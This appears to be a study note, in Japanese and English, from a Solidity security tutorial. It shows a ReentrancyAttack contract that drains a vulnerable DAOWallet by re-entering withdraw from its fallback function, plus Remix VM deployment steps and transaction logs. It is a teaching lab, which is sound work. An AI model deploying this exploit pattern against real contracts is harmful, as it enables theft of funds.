 ```solidity
        dWallet = DAOWallet(_daoWalletAddress);

    }

    function attack() external payable {//executed attack 
        require(msg.value >= 1 ether);

        dWallet.deposit{ value: msg.value }();//put money into DAOWallet
        dWallet.withdraw(1 ether); //and then withdraw cuz function withdraw programmed to send our contract money 
        //which means it's gonna hit our fallback function 
    }

    fallback() external payable {
        if(address(dWallet).balance >= 1 ether) {
                 dWallet.withdraw(1 ether); 
        }   

    }

    function getContractBalance() public view returns(uint) {
        return address(this).balance;
    }
}
```
//DAOWallet.sol

//Javascript VMではじめにDeploy 

//Account 1.Dale 2.Laura 

//1.Dale の状態でvalueを 1 Etherに設定。=> deployしてtransactionの成功を確認 => Deployed Contractを選択してdeposit => getAccountBalanceで 1Etherの入金を確認
```
[vm]from: 0x5B3...eddC4to: DAOWallet.deposit() 0xd91...39138value: 1000000000000000000 weidata: 0xd0e...30db0logs: 0hash: 0xca1...fce18
call to DAOWallet.getAccountBalances
```

//2.Laura の状態でもvalueを1 Ether => getAccountBalanceで 2 Etherになったことを確認 （誰でもdeployできる状況)
```
[vm]from: 0xAb8...35cb2to: DAOWallet.deposit() 0xd91...39138value: 1000000000000000000 weidata: 0xd0e...30db0logs: 0hash: 0xdbe...b78c9
call to DAOWallet.getAccountBalances
```


//ReentrancyAttack.sol 

ref: [Defi Developer Academy](https://www.youtube.com/watch?v=0qCNOxVugGk)

//3. Bob =>  Attack to reentrancy and security vlunerability! //32:12

//DeployedContract DAOWalletのAddressをcopyしてdeployにpaste => select ReentrancyAttack contract => deploy => show up reentrancyAttack contract 
```
[vm]from: 0x4B2...C02dbto: ReentrancyAttack.(constructor)value: 0 weidata: 0x608...39138logs: 0hash: 0xc0d...1c32f //35:08
```
